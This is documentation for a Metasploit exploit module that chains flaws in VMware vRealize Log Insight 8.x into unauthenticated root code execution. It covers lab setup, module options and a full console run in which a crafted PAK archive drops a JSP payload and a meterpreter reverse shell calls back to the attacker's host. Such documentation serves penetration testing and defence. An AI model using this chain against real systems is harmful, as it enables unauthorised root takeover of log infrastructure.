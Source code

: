 ## Vulnerable Application

vRealize Log Insight provides intelligent log management for infrastructure and applications
in any environment. This highly scalable log management solution delivers intuitive, actionable
dashboards, sophisticated analytics, and broad third-party extensibility across physical, virtual,
and cloud environments.

VMWare vRealize Log Insightis versions v8.x contain multiple vulnerabilities, such as
directory traversal, broken access control, deserialization, and information disclosure.
When chained together, these vulnerabilities allow a remote, unauthenticated attacker to
execute arbitrary commands on the underlying operating system as the root user.

This module exploits multiple vulnerabilities for achieving unauthenticated remote code execution
on the VMware vRealize Log Insight version `v8.x`. Module achieves code execution via triggering a
`RemotePakDownloadCommand` command via the exposed thrift service after obtaining the node token by
calling a `GetConfigRequest` thrift command. After the download, it will trigger a `PakUpgradeCommand` for
processing the specially crafted PAK archive, which then will place the JSP payload under a
certain API endpoint (pre-authenticated) location upon extraction for gaining remote code execution.

The original analysis and POC is done by the Horizon3.ai Team.
Check [here](https://www.horizon3.ai/vmware-vrealize-log-insight-vmsa-2023-0001-technical-deep-dive/) for full disclosure writeup.

## Testing
For installing the vulnerable version follow the steps below,
1. To obtain the vulnerable OVA image, first create a customer account at
[VMware](https://customerconnect.vmware.com/account-registration) (trial license is sufficient)
2. Navigate [here](https://customerconnect.vmware.com/account-registration) and download `Virtual Appliance`
3. Import the OVA image into a virtualization software (VirtualBox is used for this case).
4. Start the `VMware_vCenter_Log_Insight` image and proceed with the initial installation steps through the web interface of the product.

After these steps, the web portal (port 80/443) and Apache thrift service (port 16520) should be accessible.

## Verification Steps

1. msfconsole
2. Do: `use exploit/linux/http/vmware_vrli_rce`
3. Do: `set RHOST [IP]`
4. Do: `check`

## Options

### THRIFT_PORT
This is the Thrift service port for VMware xRealize Log Insight.

### THRIFT_TIMEOUT
This value represents the timeout duration for thrift service responses.

## WaitForResponseTimeout
This value represents timeout duration in seconds for RemotePakDownload command response.

## WaitForUpgradeDuration
This value represents the duration of wait after issuing a PakUpgrade command.

## Scenarios

```
msf6 > use exploit/linux/http/vmware_vrli_rce 
[*] Using configured payload linux/x64/meterpreter/reverse_tcp
msf6 exploit(linux/http/vmware_vrli_rce) > set rhosts 192.168.56.107
rhosts => 192.168.56.107
msf6 exploit(linux/http/vmware_vrli_rce) > set lhost 192.168.56.1 
lhost => 192.168.56.1
msf6 exploit(linux/http/vmware_vrli_rce) > set srvhost 192.168.56.1 
srvhost => 192.168.56.1
msf6 exploit(linux/http/vmware_vrli_rce) > run

[*] Started reverse TCP handler on 192.168.56.1:4444 
[*] 192.168.56.107:443 - Running automatic check ("set AutoCheck false" to disable)
[*] 192.168.56.107:443 - Checking if 192.168.56.107:443 can be exploited.
[+] 192.168.56.107:443 - The target appears to be vulnerable. VMware XRLI Version: 8.10
[*] 192.168.56.107:443 - Starting Payload Server
[*] 192.168.56.107:443 - Using URL: http://192.168.56.1:8080/IssIrRP.tar
[*] 192.168.56.107:443 - Fetching thrift config...
[+] 192.168.56.107:443 - Obtained node token: 015dd665-9f84-4efc-9fd2-1ea2e467dbf8
[*] 192.168.56.107:443 - Sending getNodeType...
[*] 192.168.56.107:443 - Sending RemotePakDownloadCommand...
[*] 192.168.56.107:443 - Sending PakUpgradeCommand...
[*] 192.168.56.107:443 - Encoding the payload as JSP
[*] 192.168.56.107:443 - Malicious TAR payload created (117760 bytes)
[+] 192.168.56.107:443 - Payload requested by 192.168.56.107:443, sending...
[+] 192.168.56.107:443 - PakUpgrade request is successful
[*] 192.168.56.107:443 - Waiting 2 second for PakUpgrade...
[*] 192.168.56.107:443 - 192.168.56.107:443 - Triggering JSP payload...
[*] Sending stage (3045380 bytes) to 192.168.56.107
[+] 192.168.56.107:443 - Deleted /tmp/IssIrRP.pak
[+] 192.168.56.107:443 - Deleted /usr/lib/loginsight/application/3rd_party/apache-tomcat-8.5.82/webapps/ROOT/loginsight/api/api-v5-documentation.jsp
[*] Meterpreter session 1 opened (192.168.56.1:4444 -> 192.168.56.107:57010) at 2023-09-07 19:48:14 +0200
[*] 192.168.56.107:443 - Server stopped.

meterpreter > getuid 
Server username: root
meterpreter > sysinfo 
Computer     : 192.168.56.107
OS           : VMware Photon OS 3.0 (Linux 4.19.256-1.ph3)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > 

```
